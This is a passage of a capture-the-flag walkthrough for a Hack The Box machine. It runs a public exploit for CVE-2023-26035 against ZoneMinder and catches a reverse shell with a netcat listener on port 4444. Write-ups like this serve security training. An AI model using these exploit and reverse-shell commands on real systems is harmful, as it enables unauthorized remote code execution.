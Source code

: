 ```shell
Enable ESM Apps to receive additional future security updates. 

See https://ubuntu.com/esm or run: sudo pro status 

  

  

The list of available updates is more than a week old. 

To check for new updates run: sudo apt update 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings 

  

  

Last login: Thu Feb 22 10:10:14 2024 from 10.10.14.35 

matthew@surveillance:~$ ls 
```

Now we can try to access the site we get a login page there 
![zoneminder_login](https://i.ibb.co/z2nyRbn/zoneminder-login-page.png)
 
We can also check the config files. Configuration files often contain valuable information about the system setup and can sometimes reveal clues or misconfigurations that could lead to vulnerabilities or alternative access methods. Common locations for configuration files include /etc and directories within the application's installation directory. Look for files like config.php, config.ini, or similar, depending on the application.
![zoneminder_config](https://i.ibb.co/zb7pZcr/zoneminder-version.png)

We might do a google search on reported vulnerabilities concerning zoneminder and we do come across a GitHub repository that contains an exploit for a vulnerability identified as CVE-2023-26035, which enables remote code execution (RCE). Remote code execution vulnerabilities are severe security issues that allow an attacker to execute arbitrary code on a target system remotely, often leading to complete compromise of the system. 

[exploit](https://github.com/rvizx/CVE-2023-26035)
```shell
dexter@lab:~/lab/HTB/machines/surveilance/CVE-2023-26035$ python3 exploit.py -t http://127.0.0.1:2222 -ip 10.10.14.35 -p 4444 

[>] fetching csrt token 

[>] recieved the token: key:845fd9dea6ae5ab19dc10adb01f9fb99b27e321c,1708598433 

[>] executing... 

[>] sending payload.. 
```
```shell
dexter@lab:~/lab/HTB/machines/surveilance/CVE-2023-26035$ nc -lnvp 4444    

listening on [any] 4444 ... 

connect to [10.10.14.35] from (UNKNOWN) [10.10.11.245] 40688 

bash: cannot set terminal process group (1111): Inappropriate ioctl for device 

bash: no job control in this shell 

```